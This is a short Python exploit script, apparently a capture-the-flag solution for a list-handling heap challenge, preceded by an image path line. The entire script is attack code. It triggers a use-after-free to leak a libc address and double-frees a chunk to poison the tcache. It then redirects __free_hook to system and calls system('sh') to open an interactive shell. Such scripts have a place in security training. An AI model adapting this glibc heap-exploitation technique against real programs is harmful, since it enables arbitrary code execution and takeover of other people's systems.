```python
create_list('0' * 0x20)
for i in xrange(0x20):
	add_elem(0, i+1)
for i in xrange(8):
	dup_list(0, str(i+1) * 0x20)
for i in xrange(7):
	remove(i+2) # fill 0x90 tcache
for i in xrange(3):
	add_elem(0, i+1) # extend, cause UAF
libc_addr = view_elem(1, 0) + \
	(view_elem(1, 1) << 0x20) - \
	0x3ebca0
print hex(libc_addr)
# 0 and 1 are used

create_list('2' * 0x30)
for i in xrange(3):
	add_elem(2, i+1)
dup_list(2, "dup1") # 3
dup_list(2, "dup2") # 4

create_list("writefd") # 5
fh = libc_addr + e.symbols["__free_hook"]
add_elem(5, fh % 0x100000000)
# so next add_elem will allocate 0x20 chunk

for i in xrange(4):
	add_elem(3, i+1) # free 0x20 chunk
for i in xrange(4):
	add_elem(4, i+1) # double free 0x20 chunk
# now 0x20 bin poisoned

add_elem(5, fh >> 0x20)

sys = libc_addr + e.symbols["system"]

create_list("consume") # 6
create_list("consume") # 7
add_elem(6, u16('sh'))
add_elem(7, sys % 0x100000000)
add_elem(7, sys >> 0x20) # allocate to __free_hook

sh.sendline('2')
sh.recvuntil("index of list:\n")
sh.sendline(str(6))
sh.recvuntil("number to add:\n")
sh.sendline('0') # system("sh")

sh.interactive()
```
